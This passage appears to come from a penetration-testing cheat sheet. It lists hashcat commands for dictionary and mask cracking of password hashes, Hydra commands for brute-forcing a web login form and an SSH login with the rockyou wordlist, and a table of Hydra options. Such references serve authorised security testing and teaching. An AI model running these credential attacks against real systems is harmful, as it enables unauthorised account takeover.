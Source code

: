 Dictionary attack:

```fundamental
hashcat -m 100 -a 0 --session=cracking --force --status --optimized-kernel-enable B1B3773A05C0ED0176787A4F1574FF0075F7521E rockyou.txt
```

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` directory or download it from [/dict/rockyou.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

Brute force a hash with a specified placeholder:

```fundamental
hashcat -m 0 -a 3 --session=cracking --force --status --optimized-kernel-enable cc158fa2f16206c8bd2c750002536211 -1 ?l?u -2 ?d?s ?1?l?l?l?l?l?2?2

hashcat -m 0 -a 3 --session=cracking --force --status --optimized-kernel-enable 85fb9a30572c42b19f36d215722e1780 -1 \!\"\#\$\%\&\/\(\)\=??\* -2 ?d?1 ?u?l?l?l?l?2?2?2
```

<p id="hydra"/>

### Hydra

Crack an HTTP POST web form login:

```fundamental
hydra -l admin -P rockyou.txt somesite.com http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!" -o hydra_results.txt
```

When cracking a web form login you must specify `Login=Login:<expected_message>` to distinguish between a successful login and failed one. Each expected message can vary between web forms.

Keep in mind that the `username` and `password` request parameters can be named differently.

Crack a Secure Shell login:

```fundamental
hydra -L users.txt -P rockyou.txt 192.168.8.5 ssh -o hydra_results.txt
```

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` directory or download it from [/dict/rockyou.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

Also, check the one-time-password lists in [/dict/otp.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/tree/master/dict).

| Option | Description |
| --- | --- |
| -R | Restore a previous aborted/crashed session |
| -S | Perform an SSL connect |
| -s | If the service is on a different default port, define it here |
| -l | Login with a login name |
| -L | Load several logins from a file |
| -p | Login with a password |
| -P | Load several passwords from a file |
| -x MIN:MAX:CHARSET | Password brute force generation, type "-x -h" to get help |
| -y | Disable use of symbols in bruteforce |
| -e nsr | Try "n" null password, "s" login as pass and/or "r" reversed login |
| -M | List of servers to attack, one entry per line, ':' to specify port |